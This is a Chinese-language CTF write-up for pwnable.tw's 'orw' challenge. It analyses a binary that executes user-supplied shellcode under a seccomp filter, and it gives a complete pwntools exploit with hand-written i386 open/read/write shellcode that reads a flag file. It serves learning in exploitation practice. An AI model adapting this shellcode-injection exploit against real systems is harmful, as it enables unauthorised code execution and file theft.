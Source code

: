 ## 0x00 分析

首先，题目的目的是

```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.

```

也就是只能通过`open`、`read`、`write`，来读取文件`/home/orw/flag`

ida 分析之，即从stdin读取0xc8=200个字节，然后执行这段代码

ida的f5如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 200u);
  // ((void (*)(void)) 转换为指向函数的指针类似
  ((void (*)(void))shellcode)();
  return 0;
}

```

`void(*)(void)`是函数指针，函数类似原型`void function(void)`

```c
void(*p)(void); /*定义一个函数指针*/
p=(void(*)(void))&shellcode;
p();

```

因此，本题的主要目的是构造shellcode

以下是需要注意的点

* [系统调用号](http://syscalls.kernelgrok.com/)

<!-- todo 调试说明？ -->
* linux 32位的入参顺序  从右至左依次入栈
      
    > linux 64位参数传递是按照rdi、rsi、rdx、rcx、r8、r9的顺序存放第一个参数到第六个参数。对于超出6个参数的入参还是和32位机器一样放入栈中。

* linux的返回值一般在寄存器eax中
* sys_open
* sys_read
* sys_write


## 0x01 调试

sys_open

![](assets/2019-08-04-21-34-05.png)

sys_read

![](assets/2019-08-04-21-35-59.png)

sys_write

这里的"this is a test flag"是自己创建的，用于调试

![](assets/2019-08-04-21-36-21.png)

## 0x02 EXP

```py
# coding:utf-8

from pwn import *
from pwnlib import *

p = process('./orw')
# p = remote('chall.pwnable.tw', 10001)


def gdb_attach(p):
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    gdb.attach(proc.pidof(p)[0])


# push_file_name = shellcraft.i386.pushstr("/home/orw/flag")
# open_file = shellcraft.i386.linux.syscall("SYS_open", 'esp')
# read_file_to_fd = shellcraft.i386.linux.syscall("SYS_read", 'eax', 'esp', 0x30)
# write_from_fd_to_stdin = shellcraft.i386.linux.syscall("SYS_write", 1, 'esp', 0x30)
# shellcode = push_file_name+open_file + read_file_to_fd+write_from_fd_to_stdin

shellcode = ''
# open(file,0,0)
shellcode +=    """
                xor ecx,ecx;
                mov eax,0x5;
                push ecx;
                push 0x67616c66;
                push 0x2f77726f;
                push 0x2f656d6f;
                push 0x682f2f2f;
                mov ebx,esp;
                xor edx,edx;
                int 0x80;
                """
# read(3,file,0x30)
shellcode +=    """
                mov eax,0x3;
                mov ecx,ebx;
                mov ebx,0x3;
                mov dl,0x30;
                int 0x80;
                """
# write(1,file,0x30)
shellcode +=    """
                mov eax,0x4;
                mov bl,0x1;
                int 0x80;
                """

p.recvuntil(":")
payload = asm.asm(shellcode)
gdb_attach(p)
p.send(payload)
p.interactive()

```

## 0x03 其他

看到[Anciety的博客](https://blog.csdn.net/qq_29343201/article/details/78109066?locationNum=3&fps=1)，打算试试dump
（给学弟递茶）

Todo 过段时间再弄